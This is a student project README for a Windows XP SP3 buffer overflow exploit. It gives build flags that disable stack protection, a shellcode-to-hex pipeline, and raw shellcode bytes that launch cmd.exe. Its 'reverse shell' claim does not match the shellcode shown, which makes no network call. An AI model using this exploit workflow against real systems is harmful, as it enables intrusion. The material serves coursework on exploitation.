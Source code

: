# Buffer Overflow Example for Windows XP SP3

## Overview

This project demonstrates a **buffer overflow exploit** targeting a vulnerable program on **Windows XP SP3**. The `shell.asm` x86 shellcode creates a new process using `CreateProcessA` with hardcoded API addresses. Designed for **educational purposes**, it highlights how buffer overflows work and how shellcode executes.

**Created for CS166, HW5. Educational purposes only.**

![Buffer Overflow Demo](output.gif)

---

## Features

- **Reverse Shell**: Executes `cmd.exe` and connects back to the attacker.
- **Hardcoded API**: Uses static addresses for Windows XP SP3 functions.
- **Customizable**: Easily update target IP/port for the reverse shell.

---

## Files

- `shell.asm`: Shellcode payload in x86 Intel assembly.
- `bo.c`: Vulnerable program, binds a socket on the given IP and port.
- `exploit.py`: Python script for exploiting the buffer overflow vulnerability.

---

## Usage

### 1. Compile the Vulnerable Program
   Compile the C program using a 32-bit MinGW compiler:
   ```bash
   i686-w64-mingw32-gcc -fno-stack-protector -no-pie -m32 -o bo.exe bo.c -lws2_32
   Usage: .\bo.exe <IP> <PORT> 
   ```

### 2. Compile the Shellcode and Convert to a Hex String
   Assemble the shellcode using NASM and convert it into a hex string:
   ```bash
   nasm -f win32 shellcode.asm -o shellcode.o

   objdump -M intel -d shellcode.o | grep '[0-9a-f]:' | grep -v 'file' | \
   cut -f2 -d: | cut -f1-6 -d' ' | tr -s ' ' | tr '\t' ' ' | sed 's/ $//g' | \
   sed 's/ /\\x/g' | tr -d '\n' | sed 's/^/"/' | sed 's/$/"/g'
   ```

   Example Output:
   ```
   "\x31\xd2\x31\xc9\x51\x68\x65\x78\x65\x00\x68\x63\x6d\x64\x2e\x89\xe3\x83\xec\x54\x89\xe7\x51\x58\xb9\x15\x00\x00\x00\xf3\xab\x83\xef\x54\xc6\x07\x44\x8d\x77\x44\x56\x57\x51\x51\x6a\x00\x6a\x01\x51\x51\x53\x51\xb8\x6b\x23\x80\x7c\xff\xd0\x6a\x00\xb8\x0a\xd2\x81\x7c\xff\xd0"
   ```

### 3. Copy the Hex String into `exploit.py`
   Replace the placeholder buffer in `exploit.py` with the generated hex string:
   ```py
   buf = b"\x31\xd2\x31\xc9\x51\x68\x65\x78\x65\x00\x68\x63\x6d\x64\x2e\x89\xe3\x83\xec\x54\x89\xe7\x51\x58\xb9\x15\x00\x00\x00\xf3\xab\x83\xef\x54\xc6\x07\x44\x8d\x77\x44\x56\x57\x51\x51\x6a\x00\x6a\x01\x51\x51\x53\x51\xb8\x6b\x23\x80\x7c\xff\xd0\x6a\x00\xb8\x0a\xd2\x81\x7c\xff\xd0"
   ```

### 4. Run `exploit.py`
   Install the `pwn` library if not already installed:
   ```bash
   pip install pwntools
   ```

   Execute the exploit:
   ```bash
   python exploit.py
   ```
---

## References (IEEE Style)

[1] Shell-Storm, "Shellcode Examples Database," [Online]. Available: [https://shell-storm.org/shellcode/index.html](https://shell-storm.org/shellcode/index.html). [Accessed: Dec. 2, 2024].

[2] Cocomelonc, "Windows Shellcoding Example: Writing and Testing Shellcode for Windows," [Online]. Available: [https://cocomelonc.github.io/tutorial/2021/10/27/windows-shellcoding-1.html](https://cocomelonc.github.io/tutorial/2021/10/27/windows-shellcoding-1.html). [Accessed: Dec. 2, 2024].

[3] M. Valle, "Windows Manual Shellcode Part 3: CreateProcessA," [Online]. Available: [https://marcosvalle.github.io/re/exploit/2018/10/21/windows-manual-shellcode-part3.html](https://marcosvalle.github.io/re/exploit/2018/10/21/windows-manual-shellcode-part3.html). [Accessed: Dec. 2, 2024].
